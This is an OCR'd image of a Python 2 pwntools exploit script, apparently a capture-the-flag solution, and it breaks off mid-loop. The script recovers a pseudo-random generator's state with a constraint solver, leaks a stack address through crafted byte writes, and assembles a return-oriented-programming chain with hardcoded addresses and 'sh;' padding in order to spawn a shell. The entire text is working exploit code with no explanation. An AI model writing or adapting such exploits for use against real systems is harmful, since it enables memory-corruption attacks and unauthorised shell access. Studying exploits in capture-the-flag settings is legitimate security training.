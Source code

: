 ```
def writeByte(number, byte):
    assert byte != 'n'
    menu()
    sl('1')
    ru('suren')
    if number &amp; 1: sl('1')
    else: sl('2')
    ru('step:n')
    sl(byte)
    return
def forward(number):
    menu()
    sl('1')
    ru('suren')
    if number &amp; 1: sl('2')
    else: sl('1')
    return
def quit():
    menu()
    sl('3')
    return
def pwn():
    global prng_state
    gdb.attach(io)
    out = []
    for i in xrange(16):
        out.append(getone())
    s = iteration_attempts(out)
    status = s.check()
    print status
    init_state = dict()
    try:
        model = s.model()
        for k in model:
            idx = int(str(k)[5:])
            val = model[k].as_long()
            init_state[idx] = val
    except Exception, ex:
        print ex
        exit(0)
    for i in xrange(16):
        if i in init_state:
            prng_state[i] = init_state[i]
        else:
            prng_state[i] = 0
    it = 0xb
    for i in range(16):
        it = iteration_numbers(it)
    for i in xrange(0x20):
        it = iteration_numbers(it)
        random_value = prng_state[it]
        writeByte(random_value, 'A')
    ru(32*'A')
    stack_leak = u32(rn(4))
    info("stack_leak = " + hex(stack_leak))
    for i in xrange(4):
        it = iteration_numbers(it)
        random_value = prng_state[it]
        writeByte(random_value, p32(stack_leak)[i])
    pad = 'sh;'*4
    ropchain = 'A' + pad[:11] + p32(0x0804860B) * 10 + p32(0x080484E0) + p32(0x08048550) + p32(stack_leak)
    for i in xrange(len(ropchain)):
```